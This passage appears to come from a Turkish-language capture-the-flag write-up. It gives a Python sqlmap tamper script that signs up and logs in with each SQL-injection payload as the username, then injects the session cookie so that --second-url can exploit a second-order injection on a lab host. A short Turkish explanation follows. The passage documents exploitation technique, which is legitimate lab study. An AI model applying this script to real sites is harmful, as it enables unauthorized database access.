 
```python
#!/usr/bin/python

import requests

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL
address = "http://10.10.63.54:5000/challenge4"
password = "asd"

def dependencies():
    pass
    
def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload
```

--tamper ile çağırıldığı zaman tamper() fonksiyonu çalışır  burada  Headers["cookie"] ye loginden gelen session bilgisi kaydedilir bu şekilde --second-url de kullanılacak olan header değiştirilmiş olur.
